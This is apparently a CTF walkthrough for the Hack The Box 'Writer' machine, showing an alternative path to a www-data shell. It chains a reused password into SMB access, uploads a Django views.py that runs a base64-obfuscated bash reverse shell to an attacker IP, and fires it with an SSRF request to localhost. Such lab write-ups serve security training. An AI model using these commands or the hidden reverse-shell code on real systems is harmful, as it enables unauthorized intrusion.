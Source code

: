 # Alternative way to exploit Writer

## Reverse Shell for www-data through SMB

After accessing the source code of the web application, the password in _/var/www/writer.htb/writer/\_\_init\_\_.py_ was reused on the SMB service.

Enumerating the SMB shares:
```
smbclient -L //10.10.11.101
```
```
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
writer2_project Disk      
IPC$            IPC       IPC Service (writer server (Samba, Ubuntu))
```

Enumerating usernames with **rpcclient**:
```
rpcclient -U '' 10.10.11.101
```
```
rpcclient $> enumdomusers
user:[kyle] rid:[0x3e8]
```

Using the password from the Python web service for the user _kyle_ to enumerate the SMB share _writer2_project_:
```
smbclient -U kyle //10.10.11.101/writer2_project
```
```
smb: \> dir

  static                              D        0  Sun May 16 22:29:16 2021
  staticfiles                         D        0  Fri Jul  9 12:59:42 2021
  writer_web                          D        0  Wed May 19 17:26:18 2021
  requirements.txt                    N       15  Tue Dec 20 17:08:01 2022
  writerv2                            D        0  Wed May 19 14:32:41 2021
  manage.py                           N      806  Tue Dec 20 17:08:01 2022
```

This is a **Python Django** web application, which is configured in the _/etc/apache2/sites-enabled/000-default.conf_ on port 8080, but can only be accessed from localhost:
```
(...)
#<VirtualHost 127.0.0.1:8080>
#       ServerName dev.writer.htb
#       ServerAdmin admin@writer.htb
#
        # Collect static for the writer2_project/writer_web/templates
#       Alias /static /var/www/writer2_project/static
#       <Directory /var/www/writer2_project/static>
(...)
```

Modifying _writer_web/views.py_ to execute a reverse shell:
```python
def home_page(request):
    import os
    os.system("echo -n YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNS85MDAxICAwPiYxICAK | base64 -d | bash;")
    template_name = "index.html"
    return render(request,template_name)
```

Uploading the modified _views.py_ to the SMB service:
```
smb: \writer_web\> put views.py
```

A **Server Side Request Forgery (SSRF)** vulnerability in the upload image feature can be used to make a request to the web application on port 8080:
```
POST /dashboard/stories/add HTTP/1.1
(...)

Content-Disposition: form-data; name="image_url"

http://127.0.0.1:8080/?test.jpg
```

After sending the request, it will connect to the service on port 8080 and execute the reverse shell command in _views.py_ to start a shell session as _www-data_.
